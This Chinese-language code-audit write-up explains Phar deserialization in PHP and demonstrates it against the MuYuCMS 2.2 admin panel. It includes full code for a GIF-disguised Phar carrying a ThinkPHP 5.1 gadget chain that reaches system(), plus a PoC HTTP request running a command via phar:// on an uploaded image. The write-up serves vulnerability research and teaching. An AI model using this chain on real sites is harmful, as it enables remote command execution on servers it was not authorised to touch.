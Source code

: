 

# 奇安信攻防社区-【PHP代码审计】站点中的Phar反序列化漏洞

### 【PHP代码审计】站点中的Phar反序列化漏洞

Unserialize函数的使用很少见，而Session反序列化可控条件又比较苛刻。这次就和大家分享最后一种Phar伪协议反序列化漏洞案例作为学习，祝师傅们以后审计时多多出洞。

# 【PHP代码审计】站点中的Phar反序列化漏洞

## 前言

PHP反序列化漏洞，如果按照反序列化入口区分，可以分为三类：

-   调用Unserialize函数进行反序列化
-   利用Session处理中进行的反序列化操作
-   通过Phar伪协议进行反序列化

Unserialize函数的使用很少见，而Session反序列化可控条件又比较苛刻。这次就和大家分享最后一种Phar伪协议反序列化漏洞案例作为学习，祝师傅们以后审计时多多出洞。

## 了解Phar

可以认为Phar是PHP的压缩文档。从`PHP 5.3`开始，引入了类似于JAR的一种打包文件机制。它可以把多个文件存放至同一个文件中，无需解压，PHP就可以进行访问并执行内部语句。  
关于Phar文件结构等其他前置知识就不重点展开，感兴趣的师傅可以参考文章：\[phar反序列化学习笔记\]([https://pankas.top/2022/04/28/](https://pankas.top/2022/04/28/) phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

## 反序列化触发方式

Phar之所以能触发反序列化，是因为Phar文件会以序列化的形式存储用户自定义的`meta-data`。而PHP在解析meta数据时，会调用`php_var_unserialize`进行反序列化操作。因此，可以代替`unserialize`函数作为反序列化漏洞的入口。  
常见的可以触发Phar反序列化的PHP文件系统函数如下：  
![image.png](assets/1705049596-ffcb8bc758c936df41b0764ba88fe79b.jpg)  
当PHP文件系统函数中的传递文件地址的参数可控时，构造合适的利用链，就能无需`unserialize`函数，进行反序列化命令执行。

## 生成Phar文件的tips

PHP在识别Phar文件时，是通过其文件头部标识`__HALT_COMPILER();?>`，并且对头部标识前面的内容或后缀名没有严格要求的。  
因此可以通过添加任意的文件头并修改Phar文件后缀名的方式，将Phar文件伪装成其他格式的文件，从而绕过上传点限制。

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
```

## 案例漏洞分析

在[MuYuCMS2.2](https://github.com/MuYuCMS/MuYuCMS)中存在后台的Phar反序列化漏洞

### 寻找触发点

\*\*Phar反序列化触发点寻找目标：\*\*找到一个参数可控的受影响的文件系统函数。  
以`is_dir`函数为例，其他受影响的文件系统函数原理相同，就不一一列举。  
使用全局文件搜索功能搜索`is_dir`函数，最终在Template.php中发现疑似存在参数可控的情况。  
![image.png](assets/1705049596-40988a737768208eb39bccc047d1981b.jpg)  
搜索关键字`cutformadd`寻找方法的触发位置，找到html模板中存在`admin/Template/cutformadd`的路径。  
![image.png](assets/1705049596-9f5494b5bd0696ab206a54a9390ee58c.jpg)  
因此，猜测Template.php功能就是调用模板html并在浏览器访问时渲染出来。看了一下该模板html内容，发现是在`管理自定义页面`的功能中。火速登录后台找到该位置，提交数据并抓包验证。  
![image.png](assets/1705049596-ee52c50cb616319551386c18778275e6.jpg)  
成功触发该方法，并且可以看到path确实可控无过滤。  
![image.png](assets/1705049596-550dc85d7ee80ffe9b88de87a4866db8.jpg)  
可是光有反序列化触发点还是无法证明存在反序列化漏洞，还需要配合利用链才完整。奈何实力不允许，无法手搓链子，只能找找现成的。

### 寻找利用链

[MuYuCMS源码](https://github.com/MuYuCMS/MuYuCMS)中描述：MuYuCMS基于ThinkPHP5.1开发的一套轻量级开源内容管理系统。  
![image.png](assets/1705049596-2545103ee3036c6f85368b32924164bd.jpg)  
社区中正好看到有关于这个版本链子分析：[ThinkPHP5.1反序列化漏洞实现rce](https://forum.butian.net/share/2307)  
阅读后，收获蛮多，感兴趣的师傅可以研读一下。  
这里就只用站在巨人的肩膀上，小小改动一下文章中的exp。在链子中加入一个主命名空间，并在其中添加生成Phar文件的代码，`TestObject`需要替换成链子中的入口类`Windows`

```php
<?php
namespace think{
    abstract class Model{
        protected $append = [];
        private $data = [];
        function __construct(){
            $this->append = ["l1_Tuer"=>["123"]];
            $this->data = ["l1_Tuer"=>new Request()];
        }
    }

    class Request{
        protected $hook = [];
        protected $filter = "system";
        protected $config = [
            'var_ajax'         => '_ajax',  
        ];
        function __construct(){
            $this->filter = "system";
            $this->config = ["var_ajax"=>''];
            $this->hook = ["visible"=>[$this,"isAjax"]];
        }
    }
}

namespace think\process\pipes{
    use think\model\concern\Conversion;
    use think\model\Pivot;

    class Windows{
        private $files = [];
        public function __construct(){
            $this->files=[new Pivot()];
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace{
    use think\process\pipes\Windows;
    $phar = new Phar("shell.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new Windows();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    echo (base64_encode(serialize(new Windows())));
}
?>
```

引用文章中的分析：`$this->$config = ['var_ajax'=>'',];`如果设置为空，那我们get传入的变量名可以为任意值。但是定义了之后，get传入的变量名就只能是我们定义的变量名。比如使用`$this->$config = ['var_ajax'=>'cmd',];`，则get需要传递`cmd=xxxx`。

在生成Phar文件前需要**将php.ini中的 phar.readonly选项设置为Off**，否则无法生成phar文件。  
![image.png](assets/1705049596-42c7be78325743a4d53dbf629b755f4b.jpg)  
配置好php.ini后，在cmd中用命令执行上面的poc.php就行了。

> php.exe poc.php

![image.png](assets/1705049596-846264692333caf4f7525bab31356da9.jpg)  
修改文件后缀名  
![image.png](assets/1705049596-270f3868af00da7208dad2649e2b1499.jpg)

### 触发反序列化漏洞

登录后台，找任意的图片上传点，上传图片，记录返回的文件路径（后台中提供的文件上传位置很多，这里仅举例其中之一）。  
![image.png](assets/1705049596-22c96d23c50fc4f748970a4e5c1a90e7.jpg)  
构造漏洞数据包，给path参数赋值为上传的Phar文件的相对路径，添加Phar伪协议头。`path=phar://./public/upload/images/65564c2937556.jpg` ，使用get传递`cmd=xxxx`。  
![image.png](assets/1705049596-80cfe0c03d731941d576116569d9583f.jpg)

poc:

```php
POST /admin.php/template/cutformadd?cmd=type%20c:\\windows\win.ini HTTP/1.1
Host: my.localhost:83
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=c570jgocjo468i6pvk3ivgicm2; first=1700160858
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 160

finame=%E8%BF%99%E6%98%AF%E4%B8%80%E4%B8%AA%E6%B5%8B%E8%AF%95&fielname=gywm.html&path=phar://./public/upload/images/65564c2937556.jpg&content=666
```

## 总结

分享完毕，师傅们在白盒挖掘漏洞时，如果遇到实在无法绕过的受限上传点，不妨试试换个思路挖掘Phar反序列化漏洞。  
受影响的文件系统函数一般还是很容易找到的，存在的难点可能就是找到合适的利用链。当站点使用的常见框架，可以试试公开的利用链；对于未使用框架的站点，实力允许的师傅可以手搓链子来利用。

